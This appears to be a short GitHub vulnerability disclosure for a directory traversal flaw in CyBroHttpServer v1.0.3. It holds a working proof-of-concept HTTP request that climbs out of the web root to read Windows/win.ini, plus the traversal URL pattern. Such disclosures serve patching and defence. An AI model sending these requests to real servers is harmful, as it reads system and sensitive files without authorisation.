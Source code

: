 # CyBroHttpServer-v1.0.3-Directory-Traversal
Directory Traversal in CyBroHttpServer v1.0.3 allows an attacker to read sensitive informations.

# PoC
To exploit vulnerability, someone could use 'http://[host]/../../../../' request to get some informations from the target. 
  For example: http://[host]/../../../../Windows/win.ini'


```
GET /../../../../Windows/win.ini HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-1.png)

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-2.png)

